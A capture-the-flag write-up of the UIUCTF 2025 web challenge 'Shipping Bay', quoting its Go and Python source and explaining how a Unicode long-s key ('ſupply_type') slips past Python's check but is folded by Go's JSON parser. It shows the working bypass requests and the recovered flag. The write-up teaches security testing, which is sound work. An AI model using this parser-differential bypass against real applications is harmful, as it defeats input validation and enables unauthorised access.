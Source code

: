 ```yaml
---
title: "UIUCTF 2025 - Shipping Bay"
date: 2025-07-29 14:00:00 +0200
categories: [UIUCTF 2025, web]
tags: [web]
description: Writeup for the challenge "Shipping Bay" from the UIUCTF of 2025
layout: post
---
```


## The write up

Here's my write up for "Shipping Bay". Hope you like it !

This challenge gives us the source code of the application, so let's read it.

### Reading the source code

First, we need to locate the flag.

``` go
type Shipment struct {
	ID          string `json:"id"`
	Destination string `json:"destination"`
	Origin      string `json:"origin"`
	SupplyType  string `json:"supply_type"`
	Weight      string `json:"weight"`
	Status      string `json:"status"`
	Departure   string `json:"departure"`
	Arrival     string `json:"arrival"`
	Priority    string `json:"priority"`
	Vessel      string `json:"vessel"`
}


func sendShipment(shipment Shipment) string {
	if shipment.SupplyType == "flag" {
		if flag, exists := os.LookupEnv("FLAG"); exists {
			return flag
		}
		return "uiuctf{fake_flag}"
	}
	return "oops we lost the package"
}
```
{: file="processing_service/main.go"}

Our goal is to somehow call the function ```sendShipment``` with as argument a Shipment structure that as a ```SupplyType``` equal to ```flag```.

Right after in the file, we have the main function : 

``` go
func main() {
	if len(os.Args) < 2 {
		fmt.Println("Usage: processing_service '<json_string>'")
		os.Exit(1)
	}
	jsonStr := os.Args[1]
	var shipment Shipment
	err := json.Unmarshal([]byte(jsonStr), &shipment)
	if err != nil {
		fmt.Println("Error parsing JSON:", err)
		os.Exit(1)
	}

	fmt.Println(sendShipment(shipment))
}

```
{: file="processing_service/main.go"}

After a quick view, we see that we need to provide one argument to the program (remember that the filename itself counts as one argument). This argument has to be a json string. The json string will then be converted into a ```shipment``` which represents the struct above. Then, we print the result of the call of ```sendShipment``` function (where the flag is located !). So, we want to run the file ```processing_service``` with a json string that represents a shipment structure where the ```SupplyType``` is set to ```flag```.

Note that ```processing_service``` is built at the start of the instance (see the Dockerfile).

For this, we need to interact with the web application.
We have 3 differents routes in ```index.py``` : 

``` python
@app.route('/')
def index():
    return render_template('index.html', shipments=SAMPLE_SHIPMENTS)

@app.route('/new_shipment')
def new_shipment():
    return render_template('new_shipment.html')

@app.route('/create_shipment', methods=['POST'])
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```
{: file="index.py"}

We see that the routes ```/``` and ```/new_shipment``` are just rendering some template and are not really interesting since they do not interact with the ```processing_service``` file.

However, ```/create_shipment``` does interact with that file. This route verify this condition ```shipment_data['supply_type'] == "flag":``` and if this is false, it passes all the data from our request (as a json string) to the ```processing_service``` file.

### The problem

So to get the flag, we have to meet two conditions :

- supply_type must be equal to "flag"
- supply_type must be different from "flag"

Obviously, this is not possible, we need to get a way around this.

The key is that the checks are not in the same language : the first is made by python while the second is by go.
We need to find an inconsistency between python and go parsers.

At first I tried to send two ```supply_type``` like this : ```{'supply_type': 'a', 'supply_type': 'b'}``` but when encontering 2 indentical keys, both python and go parsers take the last one, so no inconsistency.

Then I remembered of unicode normalization. In Unicode, some characters are visually similar but have different codepoints. Some languages normalize these before processing, which can cause inconsistencies. You have maybe seen some weird letter like ```ſ```, this is a unicode character but when you do some manipulation with it, you get some strange things to happen like this : 

``` python
>>> 'ſ'.upper()
'S'
```

The 'strange' `s` becomes a 'normal' `s` !

Maybe we can have some inconsistency with that.

Note that ```'ſ'.lower()``` produce ```'ſ'```, so no normalization in the web application python's code.

### Will this work ?

Let's hope that the go parser actually normalize our weird `s` with a regular `s`. We already know that python does not via ```.lower()```

Here's the plan :

We need to submit a ```ſupply_type``` (notice the weird ```s``` instead of the regular) with ```"flag"``` as the value. It will not be considered by python (because ```'ſupply_type'.lower()``` produce ```'ſupply_type'``` which is different from ```'supply_type'```) and (hopefully) be normalized by go which should give us the flag.

So let's test that ! 

``` python
>>> print(requests.post('https://shipping-bay.chal.uiuc.tf/create_shipment', {'ſupply_type': 'flag'}))
<Response [500]>
```

We do not get the flag but a 500 error, is there something broken with the weird ```s``` ?

``` python
>>> print(requests.post('https://shipping-bay.chal.uiuc.tf/create_shipment', {'upply_type': 'flag'}))
<Response [500]>
```

Ok probably not, let's just review the code quickly : 

``` python
shipment_data['supply_type']
```
{: file="index.py"}

When trying to fetch ```supply_type``` from the request python raises an error because it's not in ! We will just add a proper ```supply_type``` with a random value before the 'weird' one (remember, go is seeing 2 same keys and only taking the last one !).

``` python
>>> urldecode(requests.post('https://shipping-bay.chal.uiuc.tf/create_shipment', {'supply_type': '', 'ſupply_type': 'flag'}).url)
'https://shipping-bay.chal.uiuc.tf/?status=uiuctf{maybe_we_should_check_schemas_8e229f}'
```

And BOOM, we got our flag !

<i>Solved by <span class="goodwill">OuahLePleutre</span></i>
